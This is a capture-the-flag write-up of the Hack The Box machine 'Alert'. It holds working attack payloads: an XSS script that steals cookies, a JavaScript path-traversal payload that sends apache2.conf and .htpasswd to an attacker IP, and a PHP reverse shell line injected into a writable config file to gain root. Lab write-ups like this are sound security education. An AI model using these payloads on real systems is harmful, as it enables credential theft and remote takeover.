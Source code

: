 ```yaml
---
title: "HTB Release Arena: Alert"
author: "v3l1d"
date: "2024-11-26"
year: "2024"
---
```


![](attachment/d6657ac653fbaac0234f05d4af35f49d.png)

### Port Scan

```shell
# Nmap 7.94SVN scan initiated Tue Nov 26 17:13:16 2024 as: /usr/lib/nmap/nmap --privileged -sC -sV -A -T4 -o port_scan 10.129.68.51
Nmap scan report for 10.129.68.51
Host is up (0.083s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 7e:46:2c:46:6e:e6:d1:eb:2d:9d:34:25:e6:36:14:a7 (RSA)
|   256 45:7b:20:95:ec:17:c5:b4:d8:86:50:81:e0:8c:e8:b8 (ECDSA)
|_  256 cb:92:ad:6b:fc:c8:8e:5e:9f:8c:a2:69:1b:6d:d0:f7 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Did not follow redirect to http://alert.htb/
|_http-server-header: Apache/2.4.41 (Ubuntu)
Device type: general purpose
Running: Linux 5.X
OS CPE: cpe:/o:linux:linux_kernel:5.0
OS details: Linux 5.0
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 256/tcp)
HOP RTT      ADDRESS
1   82.05 ms 10.10.14.1
2   82.72 ms 10.129.68.51

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Nov 26 17:13:37 2024 -- 1 IP address (1 host up) scanned in 21.01 seconds

```

### Enumeration

```shell
┌──(kali㉿kali)-[~/HTB/Alert]
└─$ ffuf -u http://alert.htb/FUZZ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt
------------------
┌──(kali㉿kali)-[~/Downloads]
└─$ ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt:FUZZ -u http://alert.htb:80/ -H 'Host: FUZZ.alert.htb' -fc 301 
```

![](attachment/66228c6986c50a98896388dd46fb4f38.png)

![](attachment/3e99db7c16fa89cd7881b6f9bcd8c411.png)

![](attachment/0ff1f90ec311458c467ff1983ed9bf33.png)

### XSS

By **Contact Us** page we are able to perform XSS attack:

```html
<script>fetch('http://10.10.14.72:8090?cookie=' + document.cookie);</script>
```

![](attachment/fb83ae8d072b50c8decadbf1c5ff66c1.png)

Put the below script in a **.md** file:

```javascript
<script>
  // Fetch the content of the specified file
  fetch("http://alert.htb/messages.php?file=../../../../../../../etc/apache2/apache2.conf")
    .then(response => response.text()) // Convert the response to text
    .then(data => {
      // Send the fetched data to a specified server
      fetch("http://10.10.14.72:8888/?data=" + encodeURIComponent(data));
    })
    .catch(error => console.error("Error fetching the messages:", error));
</script>

<!-- <img src="http://alert.htb/visualizer.php?link_share=674658646fa912.41675821.md"/> -->
```

Meanwhile start a python http server:

```python
python -m http.server 8888
```

Then go to **Contact Us** page:

![](attachment/a52193d3f18d7809a6e50b7a962ece2c.png)

![](attachment/cdd35bee4acff7ccd34b801b04d00689.png)

```XML
%3Cpre%3E%3CVirtualHost%20*%3A80%3E%0A%20%20%20%20ServerName%20alert.htb%0A%0A%20%20%20%20DocumentRoot%20%2Fvar%2Fwww%2Falert.htb%0A%0A%20%20%20%20%3CDirectory%20%2Fvar%2Fwww%2Falert.htb%3E%0A%20%20%20%20%20%20%20%20Options%20FollowSymLinks%20MultiViews%0A%20%20%20%20%20%20%20%20AllowOverride%20All%0A%20%20%20%20%3C%2FDirectory%3E%0A%0A%20%20%20%20RewriteEngine%20On%0A%20%20%20%20RewriteCond%20%25%7BHTTP_HOST%7D%20!%5Ealert%5C.htb%24%0A%20%20%20%20RewriteCond%20%25%7BHTTP_HOST%7D%20!%5E%24%0A%20%20%20%20RewriteRule%20%5E%2F%3F(.*)%24%20http%3A%2F%2Falert.htb%2F%241%20%5BR%3D301%2CL%5D%0A%0A%20%20%20%20ErrorLog%20%24%7BAPACHE_LOG_DIR%7D%2Ferror.log%0A%20%20%20%20CustomLog%20%24%7BAPACHE_LOG_DIR%7D%2Faccess.log%20combined%0A%3C%2FVirtualHost%3E%0A%0A%3CVirtualHost%20*%3A80%3E%0A%20%20%20%20ServerName%20statistics.alert.htb%0A%0A%20%20%20%20DocumentRoot%20%2Fvar%2Fwww%2Fstatistics.alert.htb%0A%0A%20%20%20%20%3CDirectory%20%2Fvar%2Fwww%2Fstatistics.alert.htb%3E%0A%20%20%20%20%20%20%20%20Options%20FollowSymLinks%20MultiViews%0A%20%20%20%20%20%20%20%20AllowOverride%20All%0A%20%20%20%20%3C%2FDirectory%3E%0A%0A%20%20%20%20%3CDirectory%20%2Fvar%2Fwww%2Fstatistics.alert.htb%3E%0A%20%20%20%20%20%20%20%20Options%20Indexes%20FollowSymLinks%20MultiViews%0A%20%20%20%20%20%20%20%20AllowOverride%20All%0A%20%20%20%20%20%20%20%20AuthType%20Basic%0A%20%20%20%20%20%20%20%20AuthName%20%22Restricted%20Area%22%0A%20%20%20%20%20%20%20%20AuthUserFile%20%2Fvar%2Fwww%2Fstatistics.alert.htb%2F.htpasswd%0A%20%20%20%20%20%20%20%20Require%20valid-user%0A%20%20%20%20%3C%2FDirectory%3E%0A%0A%20%20%20%20ErrorLog%20%24%7BAPACHE_LOG_DIR%7D%2Ferror.log%0A%20%20%20%20CustomLog%20%24%7BAPACHE_LOG_DIR%7D%2Faccess.log%20combined%0A%3C%2FVirtualHost%3E%0A%0A%3C%2Fpre%3E%0A
```

```XML
<pre><VirtualHost *:80>
    ServerName alert.htb
    DocumentRoot /var/www/alert.htb
    <Directory /var/www/alert.htb>
        Options FollowSymLinks MultiViews
        AllowOverride All
    </Directory>
    RewriteEngine On
    RewriteCond %{HTTP_HOST} !^alert\.htb$
    RewriteCond %{HTTP_HOST} !^$
    RewriteRule ^/?(.*)$ http://alert.htb/$1 [R=301,L]
    ErrorLog ${APACHE_LOG_DIR}/error.log
    CustomLog ${APACHE_LOG_DIR}/access.log combined
</VirtualHost>
<VirtualHost *:80>
    ServerName statistics.alert.htb
    DocumentRoot /var/www/statistics.alert.htb
    <Directory /var/www/statistics.alert.htb>
        Options FollowSymLinks MultiViews
        AllowOverride All
    </Directory>
    <Directory /var/www/statistics.alert.htb>
        Options Indexes FollowSymLinks MultiViews
        AllowOverride All
        AuthType Basic
        AuthName "Restricted Area"
        AuthUserFile /var/www/statistics.alert.htb/.htpasswd
        Require valid-user
    </Directory>
    ErrorLog ${APACHE_LOG_DIR}/error.log
    CustomLog ${APACHE_LOG_DIR}/access.log combined
</VirtualHost>
</pre>

```

Now repeat the procedure trying to acces **.htpasswd** file, replacing the path in the script:

```python
http://alert.htb/messages.php?file=../../../../../../../var/www/statistics.alert.htb/.htpasswd
```

After retriggering the XSS from Contact Us form we'll get:

![](attachment/0ce3ad006a392dc1ffbef62788e9a149.png)

```HTML
%3Cpre%3Ealbert%3A%24apr1%24bMoRBJOg%24i******************
_______________
DECODED: 
<pre>albert:$apr1$*********Q/</pre>
```

Cracked it with haschat:

![](attachment/cfb06d3ecca98a143e24def872fd0428.png)

```shell
albert:m********
```

Login trough SSH into albert:

![](attachment/11d186566995b252209094ebcfe8f478.png)

```shell
userflag:de185f1ff*******************
```

### Privilege Escalation

From netsat we can see that there is a service running on port **8080**

![](attachment/1f93c2b0faaa4ffaea0fe1e682483b78.png)

![](attachment/ffc9628049ccd5f84b8c7be1f07aa741.png)

![](attachment/6529bd7a5d44e49e4ff0cdaf0c3b5b03.png)

The file **/opt/website-monitor/config/configuration.php** is writeable:

![](attachment/13f3b82f37651b33769179083c64c6a8.png)

Add this line to **configuration.php** 

```shell
$sock=fsockopen("10.10.14.72",9909);shell_exec("/bin/sh -i <&3 >&3 2>&3");
```

```shell
curl http://localhost:8080/config/configuration.php
---------------------------------------------------
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 9909
listening on [any] 9909 ...
connect to [10.10.14.72] from (UNKNOWN) [10.129.161.22] 59662
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
# ls
root.txt
scripts
# cat root.txt  
```

![](attachment/4ecc2194c78c07dbf8aa6e74d016a2d5.png)

```shell
rootflag:238a5640d5acdd*****************
```
